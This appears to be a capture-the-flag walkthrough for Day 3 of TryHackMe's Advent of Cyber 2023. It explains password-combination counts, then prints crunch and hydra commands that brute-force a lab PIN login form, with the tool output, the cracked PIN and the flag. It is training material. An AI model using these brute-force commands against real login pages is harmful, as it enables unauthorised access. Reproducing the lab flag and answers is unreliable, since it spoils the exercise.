 # Day 3

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/40a1d025-4fe8-4490-acdd-5bcdf22193f2)

# Scenario

The server room is securely locked, and the team must regain access to recover backup tapes. Brute-forcing the PIN panel stands out as the potential option.

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/be86e8da-1c7a-4a1f-9d83-d0cc82af0cbe)


## Learning Objectives

Upon completing this task, you will gain an understanding of:
    
    - Password complexity and the count of possible combinations.
    - The impact of the number of possible combinations on the feasibility of brute force attacks.
    - Generating password combinations using `crunch`.
    - Automated password trials using `hydra`.

## Feasibility of Brute Force

### Inquiries

    1. How many distinct PIN codes exist?
    2. How many passwords can be generated?
    3. What is the time estimate for finding the password via brute force?

## Counting the PIN Codes

Many systems depend on PIN codes or passwords for user authentication. Without proper security measures, such systems are susceptible to various attacks. Here, we explore brute force attacks, where an adversary systematically tries all possible combinations of a given password.

Consider a scenario where a four-digit PIN code must be selected. The total count would be 10,000 different PIN codes: 0000, 0001, 0002,..., 9998, and 9999. Mathematically, this is 10×10×10×10 or simply 10^4 different PIN codes.

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/6e1c8b72-7e67-4fcb-8f1d-7ad686b1246e)


## Counting the Passwords

Let's imagine a scenario with a four-character password, where each character can be:

    - A digit: We have 10 digits (0 to 9).
    - An uppercase English letter: We have 26 letters (A to Z).
    - A lowercase English letter: We have 26 letters (a to z).

Therefore, each character can be one of 62 different choices. Consequently, for a four-character password, we can create 62×62×62×62 = 62^4 = 14,776,336 different passwords.

To enhance complexity, symbols can be added, expanding the set of choices by more than 30 characters.

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/cebdf03b-911a-4b72-b045-43939842a530)




We can make passwords more secure by increasing the password complexity. This can be achieved by specifying a minimum password length and character variety. For example, the character variety might require at least one uppercase letter, one lowercase letter, one digit, and one symbol.


# Day 3 Tasks:

## 1. Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?

### PIN Code Retrieval Using crunch and hydra

1. **Objective:** Using `crunch` and `hydra`, discover the PIN code to access the control system and unlock the door. Identify the flag.

2. **Procedure:**
   
         - Navigate to [http://MACHINE-IP:8000/login.php](http://MACHINE-IP:8000/login.php).
         - Identify that the system utilizes a 3-digit password.
         - Generate a password list with `crunch` using the following command:

   ![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/0f48b3f2-5b6d-47da-a8f3-43dcb29aafde)

   
     ```bash
     crunch 3 3 0123456789ABCDEF -o 3digits.txt
     ```
```

╰─ crunch 3 3 0123456789ABCDEF -o 3digits.txt                                             ─╯
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096 

crunch: 100% completed generating output
```


## Password Cracking with Hydra

1. **Objective:** Utilize `Hydra` to crack the password using the previously created wordlist and access the control system.

2. **Procedure:**
   - Use the following `hydra` command:
   
     ```bash
     hydra -l '' -P 3digits.txt -f -v MACHINE-IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
     ```
   
   - Explanation of the command:
     - `-l ''`: Specifies an empty username.
     - `-P 3digits.txt`: Specifies the password list generated using `crunch`.
     - `-f`: Stops the attack upon successful password discovery.
     - `-v`: Enables verbose mode.
     - `http-post-form "/login.php:pin=^PASS^:Access denied"`: Defines the login form parameters.
     - `-s 8000`: Specifies the port.

```
[VERBOSE] Disabled child 9 because of too many errors
[VERBOSE] Disabled child 12 because of too many errors
[VERBOSE] Page redirected to http[s]://10.10.18.217:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.18.217:8000/error.php
[8000][http-post-form] host: 10.10.18.217   password: 670
[STATUS] attack finished for 10.10.18.217 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-04 16:55:34

```

3. **Unlocking the Device:**
   - After obtaining the password, log in using the discovered PIN code.
   - Unlock the device to retrieve the flag.

4. **Flag:**
   - The flag is revealed upon successfully unlocking the device:

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/323d8f1d-05e5-40ca-be5d-5150e83e97f2)

        THM{pin-code-brute-force}
    

